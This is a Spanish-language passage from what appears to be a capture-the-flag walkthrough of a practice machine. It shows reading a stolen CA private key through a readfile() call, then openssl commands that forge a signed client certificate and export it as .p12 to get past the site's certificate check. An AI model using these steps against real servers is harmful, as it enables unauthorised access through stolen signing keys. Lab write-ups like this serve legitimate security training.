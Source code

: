 No encontramos nada. Miramos el contenido del fichero key.

```bash
readfile("/home/nairobi/ca.key")
```

Ahora que tenemos la key podemos crear un certificado de cliente valido.

### Creamos un certificado de cliente valido {-}

1. Tenemos que recuperar el certificado del servidor

   ```bash
    openssl s_client -connect 10.10.10.131:443
    openssl s_client -connect 10.10.10.131:443 | openssl x509
    openssl s_client -connect 10.10.10.131:443 | openssl x509 > ca.cer
    ```

1. Copiamos el contenido del ca.key en un fichero ca.key

    - Aqui tenemos 2 ficheros el ca.key y el ca.cer

1. Con openssl creamos un private key

    ```bash
    openssl genrsa -out client.key 4096
    ```

1. Creamos un .req

    ```bash
    openssl req -new -key client.key -out client.req
    ```

    en commonName ponemos lacasadepapel.htb en el resto le damos al enter.

1. Firmamos el certificado

    ```bash
    openssl x509 -req -in client.req -set_serial 123 -CA ca.cer -CAkey ca.key -days 365 -extensions client -outform PEM -out client.cer
    ```

    Aqui ya tenemos un certificado cliente valido. Pero ahora tenemos que convertirlo en un 
```bash
 .p12 
```
 para que los navegadores los accepten.

1. Conversion en certificado pkcs12 para navegadores

    ```bash
    openssl pkcs12 -export -inkey client.key -in client.cer -out client.p12
    chmod 777 client.p12
    ```

